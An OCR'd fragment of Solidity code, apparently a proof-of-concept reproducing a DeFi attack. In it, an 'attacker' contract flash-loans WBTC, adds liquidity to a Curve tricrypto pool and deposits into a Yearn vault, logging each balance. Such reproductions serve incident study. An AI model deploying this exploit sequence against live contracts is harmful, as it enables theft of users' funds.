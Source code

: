 │       0xE537B5cc158EB71037D4125BDD7538421981E6AA,                                                                                                                                                                                                    │
│       type(uint256).max                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Flashloaned, WBTC balance of attacker:",                                                                                                                                                                                                      │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     curveVyper_contract.add_liquidity(amounts2, 0);                                                                                                                                                                                                  │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, crv3crypto balance of attacker:",                                                                                                                                                                                        │
│       crv3crypto.balanceOf(address(this))                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, WBTC balance of attacker:",                                                                                                                                                                                              │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.deposit(5375596969399930881565, address(this));                                                                                                                                                                                   │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Yearns Vault, yvCurve3 balance of attacker:",                                                                                                                                                                                    │